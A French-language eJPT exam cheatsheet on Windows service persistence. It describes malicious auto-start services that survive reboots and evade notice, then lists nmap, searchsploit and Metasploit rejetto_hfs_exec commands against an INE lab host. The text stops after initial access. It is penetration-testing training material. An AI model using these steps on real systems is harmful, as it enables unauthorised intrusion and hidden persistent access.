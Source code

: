 # 🔒 Windows Service Persistence - Cheatsheet eJPT

## 🎯 1. Vue d'ensemble de la persistence par service

### Concept de base
La **persistence par service Windows** consiste à :
1. **Créer un service malveillant** qui se lance automatiquement
2. **Maintenir l'accès** même après reboot/déconnexion
3. **Survivre aux redémarrages** du système
4. **Fonctionner en arrière-plan** de manière discrète

### Avantages de cette technique
- ✅ **Persistence garantie** après reboot
- ✅ **Privilèges SYSTEM** automatiques
- ✅ **Démarrage automatique** avec Windows
- ✅ **Difficile à détecter** pour utilisateur lambda
- ✅ **Compatible** toutes versions Windows

---

## 🛠️ 2. Exploitation initiale (Rejetto HFS)

### Découverte et énumération
```bash
# 1. Scan de découverte
nmap demo.ine.local

# 2. Énumération service web
nmap -sV -p 80 demo.ine.local

# 3. Recherche exploits HFS
searchsploit hfs
searchsploit rejetto
```

### Exploitation avec Metasploit
```bash
# 1. Lancer Metasploit
msfconsole -q

# 2. Utiliser exploit Rejetto HFS
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS demo.ine.local
set LHOST your_kali_ip
show options
exploit

# 3. Vérifier accès obtenu
getuid
sysinfo
```
